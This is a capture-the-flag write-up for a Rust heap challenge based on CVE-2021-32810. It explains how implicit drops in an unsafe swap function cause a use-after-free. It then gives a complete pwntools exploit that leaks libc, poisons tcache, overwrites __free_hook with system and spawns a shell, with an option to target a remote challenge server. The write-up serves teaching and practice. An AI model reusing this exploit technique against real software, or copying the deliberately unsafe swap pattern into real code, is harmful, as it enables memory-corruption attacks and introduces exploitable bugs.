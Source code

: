 # Drop

## vulnerability

The basic idea is from [CVE-2021-32810](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-32810).
This CVE is a good example to illustrate several kinds of implicit `drop` in Rust. Firstly,
if an object with drop trait is duplicated by copying its raw pointer using read(), it will be dropped twice
at the end of its life cycle. Therefore, if the object contains pointers to other memory locations, these memory locations
will be freed twice (e.g., a String object has a pointer to its content, and the drop trait of String 
will free this pointer). Secondly, if an item of list is replaced, the original item will be dropped implicitly.

I simplified the scenario of CVE-2021-32810 to make it easier to exploit. The original vulnerability may require complex 
heap fengshui since it can only be triggered within a process of merge sort. After implementing the vulnerablity 
(i.e., the implicit drops mentioned above) in a `swap` function (see in the src/swap.rs), an implicit free occurs while 
invoking swap(list, index_a, index_b). As a result, there will be an UAF on list[index_b].

```rust
fn swap(list: &mut [Bytes], ia: usize, ib: usize){
    if ia == ib {
        return;
    }
    unsafe{
        let tmp = get_by_index(&list, ia as isize).read();
        list[ia] = list[ib].clone();
        list[ib] = tmp.clone();
    }
}
```
To simply explain the UAF: tmp is a copy of list[ia]. Since list[ia] is dropped while replaced by `list[ib].clone()`, tmp will point to a freed memory chunk. However, list[ib] is freed and replaced with `tmp.clone()`, thus pointing to the same freed chunk of tmp's.  Consequencely, editing list[ib] will lead to an UAF.  

Back to see the complete implementation of this challenge, the `swap` operation is wrapped inside a `bubble` operation, which swap items of a list one by one. An `edit` operation provides the capability of triggering UAF. And a `show` operation make it very easy to leak the required addresses. 

## Reversing
The reverse engineering task of rust binary is hard. However, since the sructure and the behavior of this challenge is quite clear, I think it will be easy to find the vulnerabilities by dynamical debugging.  

## Exploitation
Now we can easily imagine the exploitation:

1. Try to leak necessary address by `show`. We can use the implictly drop in swap to insert some chunks into unsorted bin, and leak the fd pointer. 
2. Tcache poisoning by leveraging UAF.
3. Editing __free_hook to system.

So the exploitation becomes like that:
```python
from pwn import *
import sys
context.terminal = ["tmux", "splitw", "-h"]
context.arch = "amd64"
# context.log_level = "debug"

"""
demonstrate a exploitable double-free
"""

if len(sys.argv) > 1 and sys.argv[1] == "remote":
    io = remote("122.9.157.7", 50001)
else:
    io = process("./swap")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def choice(ch):
    io.recvuntil("Your choice: \n")
    io.sendline(str(ch))

def add(content):
    choice(1)
    io.recvuntil("content of the new item: \n")
    io.sendline(content)

def edit(idx, content):
    choice(3)
    io.recvuntil("Index: \n")
    io.sendline(str(idx))
    io.recvuntil("new content: \n")
    io.sendline(content)

def swap(ia, ib):
    choice(4)
    io.recvuntil("Index A: \n") 
    io.sendline(str(ia))
    io.recvuntil("Index B: \n") 
    io.sendline(str(ib))

def show(idx):
    choice(2)
    io.recvuntil("Index: \n")
    io.sendline(str(idx))
    io.recvuntil("item: \n")
    return io.recvline()

def leak_first_addr(idx):
    return u64(show(idx)[:8])
    
def reverse_bubble(idx):
    choice(4)
    io.recvuntil("West/East? (0 is West and 1 is East)\n")
    io.sendline("0")
    io.recvuntil("Launching index: \n")
    io.sendline(str(idx))

def bubble(idx):
    choice(4)
    io.recvuntil("West/East? (0 is West and 1 is East)\n")
    io.sendline("1")
    io.recvuntil("Launching index: \n")
    io.sendline(str(idx))

for i in range(10):
    add("h"*0x100)

reverse_bubble(8)
# gdb.attach(io)
for i in range(10):
    success("addr: " + hex(leak_first_addr(i)))

# leak libc
offset = 0x1ecbe0
libc_base = leak_first_addr(2) - offset
libc.address = libc_base
success("libc_base: " + hex(libc_base))

# tcache poisoning
edit(3, p64(libc.sym['__free_hook'])+b"a"*0x90)
# got free hook

print()
for i in range(10):
    success("addr: " + hex(leak_first_addr(i)))

add("/bin/sh\0"+"a"*(0x100-8))
add(p64(libc.sym['system'])+b"a"*(0x100-8))
choice("/bin/sh\0")
# gdb.attach(io)
    
io.interactive()
```